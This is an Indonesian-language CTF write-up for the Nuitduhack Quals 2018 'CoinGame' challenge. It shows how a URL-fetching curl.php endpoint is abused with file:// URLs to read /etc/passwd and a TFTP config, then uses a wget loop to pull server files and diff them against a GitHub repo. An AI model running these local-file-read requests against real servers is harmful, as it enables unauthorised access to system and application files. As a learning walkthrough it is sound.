 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-04-01
date: 2018-04-01
title: "Nuitduhack Quals 2018: CoinGame - 200pts"
tags: [nuitduhack]
mathjax: false
imagefeature: 
description: "Nuitduhack Quals 2018: CoinGame - 200pts"
category: CTF
chart: null
---
```



## Problem
---

```
Description
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```
**Url :** http://coingame.challs.malice.fr/

## Writeup
---

Website yang diberikan memiliki fungsi untuk melakukan fetch terhadap input url yg kita berikan. dan kita dapat
mengontrol protokol apa yang akan kita gunakan. untuk membaca lokal file saya menggunakan protokol file://
`http://coingame.challs.malice.fr/curl.php?way=file%3A%2F%2F%2Fetc%2Fpasswd` => untuk file /etc/passwd

pada file /etc/passwd kita belum menemukan informasi lokasi flag kemudian saya mencoba untuk melakukan fuzzing menggunakan burpsuite intruder untuk
mencari configuration file pada sistem linux

![Coin Game](../images/coingame.png)

belum mendapatkan hal yang menarik, kembali ke file /etc/passwd disana terlihat
ada user `tftp:x:104:107:tftp daemon,,,:/srv/tftp:/bin/false` menurut wikipedia `https://en.wikipedia.org/wiki/CURL` 
curl support tftp, setelah membaca `https://help.ubuntu.com/community/TFTP` diketahui file configurasi untuk
tftp yang bisa kita baca `http://coingame.challs.malice.fr/curl.php?way=file:///etc/default/tftpd-hpa`

```

# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
``` 

sampai ke tahap dimana kita butuh kemampuan untuk ~~guessing~~ recon
untuk mencari akun dari author soal tersebut di internet dan kita bisa temukan di copyright 
terlihat ada username `TOTHEYELLOWMOON` dan juga di github kita mendapatkan repository CoinGame
`https://github.com/totheyellowmoon/CoinGame/`

Deskripsi dari repositorynya : Congrats it was the first step ! Welcome on my Github, this is my new game but I haven't pushed the modifications ...
dari deskripsinya kita bisa menebak bahwa kode yang terbarunya hanya tersimpan di servernya dan belum di push.

kita clone repositorynya untuk membantu kita mengambil file yang ada diserver dengan memanfaatkan filename nya,
dan kita bandingkan md5sum nya dengan yang ada di server.

```
mkdir ctf
cd ctf
git clone https://github.com/totheyellowmoon/CoinGame.git
mkdir -p Server Server/photo Server/CardFiles Server/Cards Server/Decks Server/gameAnimationImages Server/photo/Drag Server/photo/Moderne Server/photo/New Server/photo/Ogres Server/photo/reve
cd CoinGame
#Download Core file
dir=("" "CardFiles" "Cards" "Decks" "gameAnimationImages" "photo");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/$d/$x" -O "../Server/$d/$x";done;done
cd photo
#Subfolder photo
dir=("Drag" "Moderne" "New" "Ogres" "reve");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/photo/$d/$x" -O "../../Server/photo/$d/$x";done;done
cd ../
#diff the file
dir=("CardFiles" "Cards" "Decks" "gameAnimationImages" "photo" "photo/Drag" "photo/Moderne" "photo/New" "photo/Ogres" "photo/reve"); for d in "${dir[@]}"; do diff <(md5sum $d/* | sed "s/$d//") <(md5sum ../Server/$d/* | sed "s/\.\.\/Server\/$d//");done
```

dan didapatkan perbedaan dari file yang ada di repository dan di server

![Diff](../images/coingame2.png)

flag di temukan di file background[0-3].png

![Flag](../images/coingame3.png)
